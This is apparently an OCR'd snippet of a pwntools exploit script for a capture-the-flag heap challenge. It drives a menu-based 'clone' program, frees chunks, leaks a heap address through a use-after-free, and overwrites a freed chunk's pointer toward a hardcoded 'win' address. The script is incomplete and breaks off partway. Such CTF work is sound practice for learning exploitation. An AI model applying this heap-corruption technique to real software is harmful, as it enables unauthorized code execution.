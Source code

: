```python
def edit(index,name):
    log.info("Edit: {}".format(index))
    p.sendline("c")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Enter Name")
    p.sendline(name)
    menu()

def kill(index):
    log.info("Kill: {}".format(index))
    p.sendline("b")
    p.recvuntil("Clone ID:")
    p.sendline(str(index))
    menu()

def view(index):
    log.info("View: {}".format(index))
    p.sendline("d")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Name: ",timeout=0.1)
    result = p.recvline()
    menu()
    return result

def hint(index):
    log.info("Hint: {}".format(index))
    p.sendline("h")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    return p.recvline()


win = p32(0x08048b7c)

# legitimate node to make more space in the bins
make(0, 'dummy')

# make the first one
make(1, 'first')

# make second one
make(2, 'second')

# free both + dummy
kill(0)
kill(1)
kill(2)

# Leak address
leak = view(2)

# leaked heap address
heapAddr = u32(leak[:4])

# write to the first one
edit(1, p32(heapAddr + 8))

# Create new node
make(3, 'third')
make(4, 'four')

```